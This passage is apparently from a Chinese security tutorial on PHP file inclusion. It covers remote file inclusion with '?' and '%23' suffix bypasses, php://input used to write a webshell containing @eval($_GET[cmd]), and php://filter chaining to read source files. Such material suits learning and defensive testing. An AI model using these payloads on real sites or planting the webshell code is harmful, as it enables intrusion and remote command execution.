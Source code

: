 **<a class="reference-link" name="0x00:%E6%97%A0%E4%BB%BB%E4%BD%95%E9%99%90%E5%88%B6"></a>0x00:无任何限制**

代码没有任何限制，直接在公网上存放恶意webshell即可，然后通过包含即可执行恶意payload

```
?filename=http://xxxx/php.txt
```

**<a class="reference-link" name="0x01:%E9%99%90%E5%88%B6%E5%8C%85%E5%90%AB%E6%96%87%E4%BB%B6%E7%9A%84%E5%90%8E%E7%BC%80%E5%90%8D"></a>0x01:限制包含文件的后缀名**

例如：

```
&lt;?php include($_GET['filename'] . ".no"); ?&gt;
```

**<a class="reference-link" name="%E7%AC%AC%E4%B8%80%E7%A7%8D%E6%96%B9%E6%B3%95%EF%BC%9A?%E7%BB%95%E8%BF%87"></a>第一种方法：?绕过**

```
?filename=http://xxxx/php.txt?
```

**<a class="reference-link" name="%E7%AC%AC%E4%BA%8C%E7%A7%8D%E6%96%B9%E6%B3%95%EF%BC%9A#%E7%BB%95%E8%BF%87"></a>第二种方法：#绕过**

```
?filename=http://xxxx/php.txt%23
```



## PHP伪协议

> 简单理解便是PHP自己提供的一套协议，可以适用于自己的语言，其他语言则不适用，这便是伪协议，与之相对的例如HTTP\HTTPS便不是伪协议，因为大部分系统\软件都能够进行识别。

### <a class="reference-link" name="%E5%B8%B8%E8%A7%81%E7%9A%84%E4%BC%AA%E5%8D%8F%E8%AE%AE"></a>常见的伪协议

[![](https://p1.ssl.qhimg.com/t014d77b230173d195b.png)](https://p1.ssl.qhimg.com/t014d77b230173d195b.png)

如果遇到的环境有写入权限，可以使用php://input伪协议来写入木马

```
POST DATA
&lt;?php fputs(fopen('Sn0w.php','w'),'&lt;?php @eval($_GET[cmd]); ?&gt;'); ?&gt;
```

### <a class="reference-link" name="php://filter%E5%90%84%E7%A7%8D%E8%BF%87%E6%BB%A4%E5%99%A8"></a>**php://filter各种过滤器**

> php://filter是一种元封装器，设计用来数据流打开时筛选过滤应用。<br>[官方文档](https://www.php.net/manual/zh/wrappers.php.php)

对于php://来说，是支持多种过滤器嵌套的，格式如下：

```
php://filter/[read|write]=[过滤器1]|[过滤器2]/resource=文件名称（包含后缀名）
#如果|被过滤掉了，可以使用多过滤器:
php://filter/string.rot13/resource=php://filter/convert.base64-encode/resource=文件名称（包含后缀名）
嵌套过程的执行流程为从左到右
```
